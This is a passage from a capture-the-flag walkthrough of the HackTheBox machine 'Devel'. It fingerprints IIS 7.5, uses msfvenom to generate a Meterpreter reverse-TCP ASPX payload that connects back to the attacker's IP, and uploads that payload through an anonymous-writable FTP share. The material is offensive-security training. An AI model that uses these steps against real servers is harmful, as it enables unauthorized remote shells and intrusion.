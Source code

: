 ![website](/assets/images/2020-05-13-21-22-17.png)

Works, so we can open html files placed in the ftp server.

Check what version of IIS is running on the webserver using Burp Repeater:

![burp](/assets/images/2020-05-13-21-28-32.png)

Burp shows it has IIS 7.5 which is Server 2008R2 or Windows 7.

### Gaining Access

Use msfvenom to create a payload:

```text
root@kali:~/htb/devel# msfvenom -l all | grep windows | grep meterpreter | grep reverse_tcp

windows/meterpreter/reverse_tcp     Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged). Connect back to the attacker

root@kali:~/htb/devel# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f aspx -o spen.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2804 bytes
Saved as: spen.aspx
```

Copy the payload to the FTP server:

```text
ftp> put spen.aspx
local: spen.aspx remote: spen.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2840 bytes sent in 0.00 secs (17.3618 MB/s)
```
